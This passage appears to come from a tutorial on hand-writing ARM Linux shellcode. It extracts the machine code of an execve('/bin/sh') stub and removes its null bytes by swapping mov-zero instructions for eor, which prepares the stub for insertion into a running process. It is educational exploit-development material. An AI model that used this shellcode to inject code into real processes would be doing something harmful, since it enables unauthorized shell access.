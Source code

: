 
We can use another GNU utility [objcopy(1)][objcopy] to extract just these instructions.

    # objcopy -O binary shell.o shell.bin

And with [hexdump(1)][hexdump] look at the new file

    # hexdump -C shell.bin
    00000000  0c 00 8f e2 00 10 a0 e3  00 20 a0 e3 0b 70 a0 e3  |......... ...p..|
    00000010  00 00 00 ef 2f 62 69 6e  2f 73 68 00              |..../bin/sh.|
    0000001c


Because of the way we will be inserting our code into a running process, the **0x00** bytes are going to cause problems.

### Replacing Mov Zero instructions

There are some simple alternatives to a **mov** zero instructions

    mov rN, #0

We could subtract a register from itself

    sub rN, rN, rN

or we could XOR a register with itself

    eor rN, rN

Either of those instructions end up leaving zero in **rN** which is all we want.

So now are assembly **shell.s** looks like this

    .text
    .global _start

    _start:
            add r0, pc, #12
            eor r1, r1, r1
            eor r2, r2, r2
            mov r7, #11
            svc #1

    _string:
    .asciz  "/bin/sh"

And the machine code like this

    $ as shell.s -o shell.o
    $ objdump -d shell.o

    shell.o:     file format elf32-littlearm


    Disassembly of section .text:

    00000000 <_start>:
       0:   e28f000c        add     r0, pc, #12
       4:   e0211001        eor     r1, r1, r1
       8:   e0222002        eor     r2, r2, r2
       c:   e3a0700b        mov     r7, #11
      10:   ef000001        svc     0x00000001


[objcopy]: http://man7.org/linux/man-pages/man1/objcopy.1.html
[hexdump]: http://man7.org/linux/man-pages/man1/hexdump.1.html
[readelf]: http://www.man7.org/linux/man-pages/man1/readelf.1.html
[ld]: http://man7.org/linux/man-pages/man1/ld.1.html
[execstack]: http://man7.org/linux/man-pages/man8/execstack.8.html